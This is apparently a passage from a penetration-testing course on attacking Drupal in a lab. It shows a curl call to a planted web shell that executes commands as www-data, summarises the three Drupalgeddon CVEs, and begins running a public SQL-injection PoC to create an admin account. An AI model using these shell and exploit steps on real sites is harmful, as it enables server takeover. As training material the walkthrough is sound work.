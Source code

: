 Once the installation succeeds, browse to `/modules/captcha/shell.php` to execute commands.

```shell-session
$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

***

## Leveraging Known Vulnerabilities

Over the years, Drupal core has suffered from a few serious remote code execution vulnerabilities, each dubbed `Drupalgeddon`. At the time of writing, there are 3 Drupalgeddon vulnerabilities in existence.

* [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
* [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
* [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.

Let's walk through exploiting each of these.

***

## Drupalgeddon

As stated previously, this flaw can be exploited by leveraging a pre-authentication SQL injection which can be used to upload malicious code or add an admin user. Let's try adding a new admin user with this [PoC](https://www.exploit-db.com/exploits/34992) script. Once an admin user is added, we could log in and enable the `PHP Filter` module to achieve remote code execution.

Running the script with the `-h` flag shows us the help menu.

```shell-session
$ python2.7 drupalgeddon.py 

  ______                          __     _______  _______ _____    
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |   
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |   
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |   
 |:  1    /          |__|                 |   |  |:  1   | |:  |   
 |::.. . /                                |   |  |::.. . | |::.|   
 `------'                                 `---'  `-------' `---'   
  _______       __     ___       __            __   __             
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|                               
 |::.. . |            |::.|                                        
 `-------'            `---'                                        
                                                                   
                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

			  Discovered by:

			  Stefan  Horst
                         (CVE-2014-3704)

```